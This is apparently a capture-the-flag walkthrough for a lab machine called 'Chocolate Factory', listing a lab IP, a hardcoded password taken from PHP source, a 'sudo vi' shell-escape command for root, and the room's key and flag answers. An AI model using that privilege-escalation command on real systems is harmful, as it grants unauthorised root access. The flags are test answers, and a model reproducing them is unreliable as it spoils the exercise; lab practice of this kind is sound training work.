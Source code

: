# Chocolate Factory-Remote Code Execution&sudo vi privilige escalation

```
export IP=10.10.61.186
```

# Material needed

1. Interesting directory: /home.php

2. Charlie password

```
if($uname=="charlie" && $password=="cn7824"){
		echo "<script>window.location='home.php'</script>";
```

3. Privilege escalation

```
sudo vi -c ':!/bin/sh' /dev/null
```

# Tasks

1. Enter the key you found! 

```
-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
```

2. What is Charlie's password?

```
cn7824
```

3. Enter the user flag

```
flag{cd5509042371b34e4826e4838b522d2e}
```

4. Enter the root flag

```
flag{cec59161d338fef787fcb4e296b42124}
```